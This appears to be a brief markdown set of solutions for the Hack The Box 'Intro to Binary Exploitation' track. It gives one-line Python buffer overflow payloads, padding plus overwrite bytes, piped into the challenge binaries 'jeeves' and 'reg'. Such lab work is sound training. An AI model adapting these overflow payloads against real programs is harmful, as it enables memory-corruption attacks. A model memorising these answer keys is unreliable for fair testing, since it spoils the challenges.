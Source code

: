 # Intro to Binary Exploitation
https://app.hackthebox.eu/tracks/Intro-to-Binary-Exploitation

## JEEVES
```bash
# python3
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*60 + b"\xb3\xba\x37\x13")' | ./jeeves
```

```bash
# Python2
python2 -c 'print("A"*60 + "\xb3\xba\x37\x13")' | ./jeeves
```

## Reg
```bash
# Python 2
python2 -c 'print("A"*56 + "\x06\x12\x40")' | ./reg
```
